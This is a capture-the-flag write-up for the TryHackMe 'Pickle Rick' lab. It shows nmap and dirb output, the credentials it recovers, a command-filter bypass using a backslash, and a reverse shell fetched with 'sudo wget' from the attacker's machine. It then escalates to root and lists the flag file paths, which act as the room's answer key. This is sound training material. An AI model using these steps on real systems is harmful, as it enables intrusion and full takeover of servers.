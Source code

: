 <p align="center">
  THM : Pickle Rick<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/picklerick<br>
  <img src="https://i.imgur.com/3ypKR1f.png">
</p>

## Summary
- [NMAP Scan](#nmap-scan)
- [Manual Website Enumeration](#manual-website-enumeration)
- [Dirb Scan](#dirb-scan)
- [Getting a shell](#getting-a-shell)
- [Find flags](#find-flags)
- [Conclusion](#conclusion)

## NMAP Scan

Do the following cmd : nmap -A -p- -oN nmapResults.txt 10.10.181.166

```
# Nmap 7.92 scan initiated Fri Aug 19 23:14:31 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.181.166

Nmap scan report for 10.10.181.166
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:c4:52:9e:e4:3a:d7:d1:cb:3f:d7:0e:e6:09:82:6e (RSA)
|_  256 3c:31:4a:49:af:7d:8e:75:70:40:db:04:69:d5:18:e6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 23:14:48 2022 -- 1 IP address (1 host up) scanned in 17.18 seconds
```
## Manual website enumeration
If we go to the index page of the website, we can see that Rick is talking about a password that he forgot.
![alt text](https://i.imgur.com/1xrSiU4.png)  

Looking at the source code of the page, we can see that Rick left a comment containing a username.  
![alt text](https://i.ibb.co/GW2tXsY/1.png)  
So now we have a username : **R1ckRul3s**

One of the first things I look for when i'm enumerating a website is the robot.txt file. So let's see if there is a robot.txt file on this web server.  
![alt text](https://i.imgur.com/cqP0pux.png)  
And we found a strange looking strings... It's not a page of the webserver so.. Maybe the password that Rick lost ? Let's write it down for the moment.  
## Dirb Scan
First I tried a simple dirb scan but it didn't found any interesting pages, so I decided to try using the -X parameter to search for page with extensions like so : ```dirb http://10.10.99.97/ -X .php```  
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/Pickle_Rick]
└─$ dirb http://10.10.99.97/ -X .php     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 19 23:20:38 2022
URL_BASE: http://10.10.99.97/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.99.97/ ----
+ http://10.10.99.97/denied.php (CODE:302|SIZE:0)
+ http://10.10.99.97/login.php (CODE:200|SIZE:882)
```
And we found a login.php page ! (The denied.php page redirects us to login.php)  
So let's go to this page and try to login with the informations we gathered :
![alt text](https://i.imgur.com/reIQn7I.png)  

Using **R1ckRul3s** as login and **Wubbalubbadubdub** as password, we are redirected to a portal.php page.  
![alt text](https://i.imgur.com/B3hfAUr.png)  

We cannot access any pages using the menu on top of the page. But here we have an input field that seems to be used to run commands. So let's try using **whoami**.  
![alt text](https://i.imgur.com/2u9jgra.png)  
We see that we can run linux commands. So we can try to use some other commands... I tried some useful commands and , we can run ls, wget, sudo -l, and cat, but there is some filters that prevent from using some commands , like for cat.  
We can easily bypass those filters by just putting a '\\' inside the command, like so : **c\at file**.  
Now we have multiple choices... I could just find the different flags using this command input, but I want to get a reverse shell, it will be more easier to search on the machine.  
Like I said, we can use sudo -l and ...  
![alt text](https://i.imgur.com/FKO4Icb.png)  
Yes... www-data can run any commands as root, without password.

## Getting a shell
I tried to download a reverse shell to the machine using wget, but it didn't work, because www-data don't have write premissions to /var/www/html. So I just ran the same command as sudo like so : ```sudo wget [my ip]/php-reverse-shell.php```.
Then I just set up a netcat listener on my machine, I entered http://[machine ip]/php-reverse-shell.php in the URL of my web browser, and I got a reverse shell.
Now I can just run ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` and then ```sudo su``` to get a shell as root.  

## Find flags
Now I can get the 3 flags (ingredients for the potion that Rick needs) :  
What is the first ingredient Rick needs ? : **cat /var/www/html/Sup3rS3cretPickl3Ingred.txt**  
Whats the second ingredient Rick needs ? : **cat /home/rick/second\ ingredients**  
Whats the final ingredient Rick needs ? : **cat /root/3rd.txt**  

## Conclusion
In this CTF, we see that it can be useful to read the source code of pages on a web server, we can find useful informations, even if there is no credentials we can find CMS versions, links to other pages...  
I also learned that it is very easy for an attacker to get a full control of the machine if the user www-data has too much permissions. It is very important to manage permissions properly, www-data should not have the right to run any command as root.
Also, even if there is filters on command input, there is sometimes a way to bypass it.

